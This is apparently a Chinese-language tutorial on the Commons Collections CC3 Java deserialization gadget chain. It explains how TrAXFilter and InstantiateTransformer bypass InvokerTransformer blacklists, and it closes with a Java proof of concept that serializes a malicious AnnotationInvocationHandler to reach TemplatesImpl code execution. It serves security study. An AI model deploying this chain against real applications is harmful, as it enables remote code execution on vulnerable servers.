

- [CC3](#cc3)
  - [TrAXFilter](#traxfilter)
  - [InstantiateTransformer](#instantiatetransformer)
  - [POC](#poc)
# CC3
条件:  
* commons-collections <= 3.2.1 or 4.0  
* JDK<=8U71  

CC3链主要是对CC1链的变形,用来绕过含有`InvokerTransformer`类的黑名单,使用`TrAXFilter`和`InstantiateTransformer`两个类来代替`InvokerTransformer`类.
## TrAXFilter
TrAXFilter类是一个XML过滤器的扩展类,其构造函数如下:  

在其构造函数中其调用了传入的`templates.newTransformer()`方法,而在`TemplatesImpl`利用链的入口刚好也是其`newTransformer()`方法,那么只要传入带有恶意字节码类的`TemplatesImpl`类即可触发RCE,而想要在反序列化中利用,还需要找到一个能够在`readObject()`过程中能够触发`TrAXFilter`构造函数的方式.
## InstantiateTransformer
`InstantiateTransformer`也是一个commons collections提供的实现了`Transform`接口的Transformer类,其transform接口实现如下:

获取到输入对象的构造器,然后通过构造器的newInstance()得到对象,通过传入`TrAXFilter`类则可以触发上述的`TrAXFilter`的构造函数.
## POC
只要将`InvokerTransformer`的部分替换`TrAXFilter`和`InstantiateTransformer`即可,同时不再利用反射来执行命令,而是使用`TemplatesImpl`利用链.参考CC1做修改如下:
```java
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[] {getTemplate()})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
```
